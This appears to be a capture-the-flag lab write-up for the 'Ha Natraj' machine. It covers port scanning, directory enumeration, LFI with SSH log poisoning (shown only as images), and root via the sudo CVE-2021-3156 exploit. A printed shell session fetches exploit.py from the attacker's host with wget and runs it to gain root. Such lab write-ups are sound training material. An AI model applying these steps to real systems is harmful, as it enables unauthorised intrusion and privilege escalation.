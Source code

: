 ```yaml
---
title: Ha Natraj
categories: [Proving Grounds Play]
tags: [LFI, PrivEsc, auth.log, sudo exploit]
image:
  path: /Vulnhub-Files/img/Ha-Natraj/Untitled%201.png
  alt:  Ha Natraj Machine 🖥️
---
```



### Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled.png)

```bash
IP : 192.168.249.135
```
{: .nolineno}

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Ha_natraj]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.249.135                                                                        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-18 08:01 EDT
Nmap scan report for 192.168.249.135
Host is up (0.00080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d99fdaf42e670192d5da7f70d006b392 (RSA)
|   256 bceaf13bfa7c050c929592e9e7d20771 (ECDSA)
|_  256 f0245b7a3bd6b794c44bfe5721f80061 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HA:Natraj
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 00:0C:29:F7:80:5D (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%201.png)

Now lets see the directory traveral files/directories →

```bash
200      GET      183l     1767w    14497c http://192.168.249.135/
301      GET        9l       28w      319c http://192.168.249.135/images => http://192.168.249.135/images/
MSG      0.000 feroxbuster::heuristics detected directory listing: http://192.168.249.135/images (Apache)
200      GET      183l     1767w    14497c http://192.168.249.135/index.html
301      GET        9l       28w      320c http://192.168.249.135/console => http://192.168.249.135/console/
MSG      0.000 feroxbuster::heuristics detected directory listing: http://192.168.249.135/console (Apache)
```
{: .nolineno}

Let’s look for LFI in `/console/` directory→

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%202.png)

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%203.png)

Now I found a `auth.log` file where I found ssh login logs →

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%204.png)

Now I have to try `ssh poisoning` to get the command execution running →

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%205.png)

Now lets see the response in auth.log file →

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%206.png)

After this lets try command injection through `cmd` →

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%207.png)

Its reverse Shell time →

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%208.png)

Now In response I got the shell →

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%209.png)

Now I found nothing so far , therefore I got to know about sudo version and exploited it →

```bash
www-data@ubuntu:/var/www/html$ sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```
{: .nolineno}

Now After recon I found the exploit →

➡️ [https://github.com/worawit/CVE-2021-3156/tree/main](https://github.com/worawit/CVE-2021-3156/tree/main)

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%2010.png)

Now lets copy this exploit into our system →

```bash
www-data@ubuntu:/tmp$ wget http://192.168.249.128:8888/exploit.py
--2023-05-19 00:57:26--  http://192.168.249.128:8888/exploit.py
Connecting to 192.168.249.128:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8179 (8.0K) [text/x-python]
Saving to: 'exploit.py'

exploit.py          100%[===================>]   7.99K  --.-KB/s    in 0s      

2023-05-19 00:57:26 (483 MB/s) - 'exploit.py' saved [8179/8179]

www-data@ubuntu:/tmp$ ls
exploit.py
www-data@ubuntu:/tmp$ python3 exploit.py 192.168.249.135
Traceback (most recent call last):
  File "exploit.py", line 239, in <module>
    extra_chunk_cnt = get_extra_chunk_count(CHUNK_CMND_SIZE) if len(sys.argv) < 2 else int(sys.argv[1])
ValueError: invalid literal for int() with base 10: '192.168.249.135'
www-data@ubuntu:/tmp$ python3 exploit.py 192.168.249.128
Traceback (most recent call last):
  File "exploit.py", line 239, in <module>
    extra_chunk_cnt = get_extra_chunk_count(CHUNK_CMND_SIZE) if len(sys.argv) < 2 else int(sys.argv[1])
ValueError: invalid literal for int() with base 10: '192.168.249.128'
www-data@ubuntu:/tmp$ python3 exploit.py                
# /bin/bash
root@ubuntu:/tmp# whoami
root
root@ubuntu:/tmp# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root@ubuntu:/tmp# hostname
ubuntu
root@ubuntu:/tmp# cd ~
root@ubuntu:/root# ls -al
total 24
drwx------  3 root root 4096 Jun  3  2020 .
drwxr-xr-x 22 root root 4096 Jun  3  2020 ..
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwxr-xr-x  3 root root 4096 Jun  3  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root 1592 Jun  3  2020 root.txt
root@ubuntu:/root# cat root.txt

███▄▄▄▄      ▄████████     ███        ▄████████    ▄████████      ▄█ 
███▀▀▀██▄   ███    ███ ▀█████████▄   ███    ███   ███    ███     ███ 
███   ███   ███    ███    ▀███▀▀██   ███    ███   ███    ███     ███ 
███   ███   ███    ███     ███   ▀  ▄███▄▄▄▄██▀   ███    ███     ███ 
███   ███ ▀███████████     ███     ▀▀███▀▀▀▀▀   ▀███████████     ███ 
███   ███   ███    ███     ███     ▀███████████   ███    ███     ███ 
███   ███   ███    ███     ███       ███    ███   ███    ███     ███ 
 ▀█   █▀    ███    █▀     ▄████▀     ███    ███   ███    █▀  █▄ ▄███ 
                                     ███    ███              ▀▀▀▀▀▀  

!! Congrats you have finished this task !!

Contact us here:

Hacking Articles : https://twitter.com/rajchandel/
Geet Madan : https://www.linkedin.com/in/geet-madan/

+-+-+-+-+-+ +-+-+-+-+-+-+-+
 |E|n|j|o|y| |H|A|C|K|I|N|G|
 +-+-+-+-+-+ +-+-+-+-+-+-+-+
__________________________________
root@ubuntu:/root#
```

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }